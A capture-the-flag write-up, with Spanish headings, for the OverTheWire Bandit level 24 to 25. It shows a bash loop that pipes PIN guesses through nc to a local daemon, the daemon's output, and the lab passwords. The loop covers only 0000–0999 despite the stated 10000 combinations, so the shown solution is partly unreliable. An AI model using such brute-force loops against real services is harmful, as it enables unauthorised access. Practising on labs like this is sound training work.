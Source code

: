 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time.

## Datos de Acceso
host :  **bandit.labs.overthewire.org** port 2220
username is **bandit24**
ssh:  bandit24@bandit.labs.overthewire.org -p 2220
password: **VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**
## Solución

``` bash
bandit24@bandit:~$ for i in {0000..0999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i ; done | nc localhost 30002 | grep -v wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.
..
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.
bandit24@bandit:~$

```

## Notas Adicionales
Password : **p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d**
## Referencias
